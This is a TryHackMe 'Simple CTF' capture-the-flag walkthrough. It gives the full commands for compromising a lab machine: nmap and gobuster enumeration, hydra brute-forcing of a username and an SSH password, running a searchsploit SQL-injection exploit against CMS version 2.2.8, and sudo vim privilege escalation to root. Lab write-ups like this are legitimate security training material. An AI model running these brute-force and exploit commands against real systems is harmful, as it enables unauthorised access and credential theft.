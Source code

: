 ```yaml
---
layout: solution
category: TryHackMe
contest_code: General
contest_name: General
problem_code: SIMPLE_CTF
problem_name: Simple CTF
comments: false
tags: security enumeration privesc
date: 2021-08-17
---
```


### An nmap scan was conducted on the machine and results shown that few services were running which included ftp, apache & ssh
```
nmap -sV -sC 10.10.82.183
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/nmap.png)

‎


### An attempt was made to log into ftp by using anonymous login which allowed us to retrieve a file. It tells us that a weak password was used for the system
```
ftp 10.10.82.183
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/ftp.png)

‎


### The website was visited however nothing was interesting thus gobutser was used to find for hidden directories and it was where we came across, few interesting directories. One of them was /simple which lead us to another web page
```
gobuster dir -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.82.183 -x php,html,txt
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/result1.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/gobuster1.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/result2.png)


‎


### **[Method 1]** Further enumeration was done on this page /simple by attempting to retrieve further hidden directories using gobuster. It then led us to an admin login page (/admin)
```
gobuster dir -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.82.183/simple -x php,html,txt
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/gobuster2.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/login.png)

‎


### **[Method 1]** We can attempt to use hydra on this page to crack the user and password however brute forcing 2 fields (username & password) simultaneously can take a very long time. Thus to overcome that, I clicked on "Forgot your password?"

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/username.png)

When we attempt to enter a wrong username, it redirects us back to the login page with an additional message "User Not Found"

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/incorrect_pass.png)

‎


### **[Method 1]** Thus I used hydra to retrieve the right username which in this was mitch
```
hydra -L xato-net-10-million-usernames.txt 10.10.82.183 -t 64 -e n http-post-form "/simple/admin/login.php?forogtpw=1:forgottenusername=^USER^&forgotpwform=1&loginsubmit=Submit:User Not found"
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/network_page.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/hydra.png)

‎


### **[Method 1]** After finding the right username we can attempt to crack the password using dictionary attack. However I have a choice of cracking it though the website or SSH. For this case I used ssh. Thus, I whipphed out hydra again and cracked the password using ssh. Turns out the password is "secret"
```
hydra -l mitch -P /usr/share/wordlists/rockyou.txt -s 2222 10.10.82.183 ssh -t 64
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/hydra_result.png)

‎


### **[Method 2]** Further enumeration was done on this page /simple by attempting to retrieve further hidden directories using gobuster. It then led us to an install login page (/install.php)
```
gobuster dir -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.82.183/simple -x php,html,txt
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/gobuster3.png)

‎


### **[Method 2]** That install page was visited where it told us the version number of cms service which was 2.2.8

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/result3.png)

‎


### **[Method 2]** Searchsploit was used to find for any exploits for that service and version and turn out it was vulnerable to SQL injection thus the exploit tool was installed for execution. 
```
searchsploit -m php/webapps/46635.py
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/searchsploit.png)

‎


### **[Method 2]** Once the exploit was executed, the username and password was retrieved. 
```
python2 ./46635.py -u http://10.10.82.183/simple -w /usr/share/wordlists/rockyou.txt --crack
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/exploit_result.png)

‎


### I then logged into SSH with the following credentials obtained and retrieved the first flag

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/ssh.png)

‎


### To perform privilege escalation, I figured out the permissions user mitch has. Fortunately, he had permissions to execute vim as sudo without password. Thus, I executed vim with sudo and executed bash command inside vim to perform privilege escalation. Thus, it allowed me to retrieve the last flag in /root directory

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/priv1.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Simple%20CTF/priv2.png)

<pre 
  class="command-line" 
  data-prompt="root@machine: " 
  data-output="2"
><code class="language-bash">cat /root/root.txt
W3ll d0n3. You made it!
</code>
</pre> 
